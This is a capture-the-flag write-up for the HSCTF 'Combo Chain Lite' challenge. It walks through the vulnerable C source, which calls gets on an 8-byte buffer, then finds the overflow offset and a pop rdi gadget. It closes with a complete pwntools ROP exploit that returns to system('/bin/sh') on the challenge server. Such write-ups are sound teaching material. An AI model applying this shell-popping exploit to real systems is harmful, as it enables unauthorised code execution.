


# Combo Chain Lite


## Initial Thoughts

* 64 bit ELF
* probably some form of ROP(return oriented programming)
* exploring binary reveals we are given system address in the string output
* We can exploit this if an overflow is available in order to return to system and run /bin/sh

# Walkthrough

We are given the source code

<details>
	<summary>Source</summary>

```c
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

void vuln() {
	char dest[8];
	printf("Here's your free computer: %p\n", system);
	printf("Dude you hear about that new game called /bin/sh");
	printf("? Enter the right combo for some COMBO CARNAGE!: ");
	gets(dest);
}

int main() {
	setbuf(stdout, NULL);
	gid_t gid = getegid();
	setresgid(gid,gid,gid);
	vuln();
	return 0;
```
</details>

The obvious gets vulnerability stands out with the system print out and /bin/sh in the string points directly to a standard ROP (confirmed in the hint for the challenge)

## Find the padding required for our payload

```c
pwn cyclicpwn cyclic 20 | ./combo-chain-lite ; sudo dmesg | tail
```



The IP is 0000000061616165

```c
pwn cyclic -l 0x0000000061616165
```

The result is __16__

Given that we have system and we see /bin/sh in the string out put can can asssume popping a shell will be simple. The ELF is 64 bit which will require a little more extra work popping parameters into the register. Lets check for some gadgets!

## Check for ROP gadgets

```c
ROPgadget --binary ./combo-chain-lite
```



__0x0000000000401273 : pop rdi ; ret__ is perfect

We will save this address for our python script and combine it with system and /bin/sh to pop a shell.

## Craft the Exploit

* Open GDB, set a break at main. Run the program and search for the /bin/sh string. Save the address
* Craft a python script that extracts the given system address, creates a payload with the proper padding in the following order
1. Padding
2. rdi pop
3. /bin/sh address
4. system address

* See below for the python code

<details>
	<summary>Exploit</summary>

```python
#!/usr/bin/env python

from pwn import *
SERVER = True
if SERVER:
	host, port = 'pwn.hsctf.com', 3131
	p = remote(host, port)
else:
	p = process('./combo-chain-lite')


p.recvuntil("Here's your free computer: ")
system = int(p.recv(14), 16)
bash = 0x402051
rdi_pop = 0x0000000000401273
#craft payload
padding = "A"*16
payload = padding
payload+= p64(rdi_pop)
payload+= p64(bash)
payload+= p64(system)
p.sendline(payload)
p.interactive()
```
</details>

<details>
	<summary>Flag</summary>

hsctf{wheeeeeee_that_was_fun}
</details>

## Info Links

[64-bit Return Oriented Programming](https://crypto.stanford.edu/~blynn/rop/)